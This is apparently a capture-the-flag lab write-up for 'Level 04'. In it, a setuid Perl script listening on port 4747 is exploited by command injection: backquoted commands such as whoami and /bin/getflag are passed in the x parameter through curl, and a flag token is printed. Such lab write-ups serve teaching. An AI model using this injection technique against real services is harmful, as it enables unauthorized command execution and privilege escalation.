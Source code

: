 ## LEVEL 04

---

In this level, we have a Perl script named `level04.pl` with the setuid bit set for the user `flag04`.

After examining the Perl script, we can see that it is listening on port `4747` and receiving the `x` parameter from the user. It then prints the result of the `echo` command on the screen. We can use this vulnerability to execute any command we want through the `x` parameter.

We can test this by using the `curl` command with the `x` parameter set to a command enclosed in backquotes. For example, we can execute the `whoami` command using the following command:

```shell
$ curl 'localhost:4747?x=`whoami`'
flag04
```

We can see that the `whoami` command was executed and returned the user `flag04`. Now, we can execute the `getflag` command in a similar way:

```shell
$ curl 'localhost:4747?x=`/bin/getflag`'
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```

We have successfully exploited the vulnerability in the Perl script and retrieved the token for this level.

---

*Source:*

*https://unix.stackexchange.com/questions/27428/what-does-backquote-backtick-mean-in-commands*